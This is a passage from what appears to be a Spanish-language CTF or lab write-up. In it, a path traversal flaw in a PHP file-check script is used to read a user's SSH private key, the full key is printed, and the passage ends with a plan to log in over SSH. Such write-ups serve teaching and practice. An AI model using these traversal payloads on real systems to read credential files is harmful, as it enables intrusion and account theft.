 Vemos que ha funcionado, ya que estamos viendo los usuarios, vemos uno llamado `gh0st`, ya que podemos leer archivos vamos a probar a intentar leer su clave `PEM` si tuviera alguna y si fuera accesible.

```
URL = http://<IP>/tools/check_if_exist.php?doc=../../../../../../home/gh0st/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
9tDhjVw3oagRmc3R03zfIwbPINo=
-----END OPENSSH PRIVATE KEY-----
```

Vemos que ha funcionado de forma correcta, por lo que nos conectaremos por `SSH` mediante dicho usuario con su `id_rsa`.
